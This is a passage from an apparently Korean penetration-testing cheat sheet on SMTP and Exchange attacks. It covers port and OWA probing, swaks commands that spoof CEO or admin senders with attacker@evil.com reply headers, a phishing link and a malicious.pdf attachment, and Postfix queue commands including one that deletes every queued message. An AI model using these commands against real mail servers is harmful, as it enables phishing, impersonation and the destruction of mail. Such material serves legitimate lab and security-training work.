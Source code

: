 ### 📧 Microsoft Exchange

```bash
# Exchange 서버 확인
telnet {IP} 25
# Microsoft ESMTP MAIL Service 확인

# Exchange 관련 포트 확인
nmap -p 25,110,143,443,993,995,5985,5986 {IP}

# OWA (Outlook Web Access) 확인
curl https://{IP}/owa
curl https://{IP}/exchange
```

---

## 🛠️ 고급 SMTP 공격 기법

### 📊 메일 헤더 조작

```bash
# swaks를 이용한 고급 헤더 조작
swaks --to victim@company.com \
      --from ceo@company.com \
      --server {IP} \
      --header "Reply-To: attacker@evil.com" \
      --header "Return-Path: attacker@evil.com" \
      --body "Click this link: http://evil.com"

# 첨부파일과 함께 전송
swaks --to victim@company.com \
      --from admin@company.com \
      --server {IP} \
      --attach @malicious.pdf \
      --body "Please review the attached document"
```

### 🔄 메일 큐 조작

```bash
# 메일 큐 정보 확인 (접근 가능한 경우)
mailq
postqueue -p

# 큐 조작 (관리자 권한 필요)
postsuper -d ALL
postsuper -r ALL
```

---

## ⏱️ 시간 관리 가이드
